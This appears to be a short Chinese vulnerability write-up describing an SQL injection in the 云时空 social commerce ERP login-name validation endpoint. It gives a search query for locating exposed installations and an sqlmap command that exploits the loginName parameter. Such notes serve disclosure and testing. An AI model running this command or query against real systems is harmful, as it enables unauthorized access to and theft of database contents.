 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>云时空 社会化商业ERP系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="云时空社会化商业ERP"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630040977210-31a0a314-667a-4cbe-9a9b-dce153582ee0-20220313155426852.png)

使用SQLmap验证漏洞

```python
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![img](../../../.vuepress/public/img/1630041138096-be221d73-c3e6-44b8-b0e8-71a999cb58f7.png)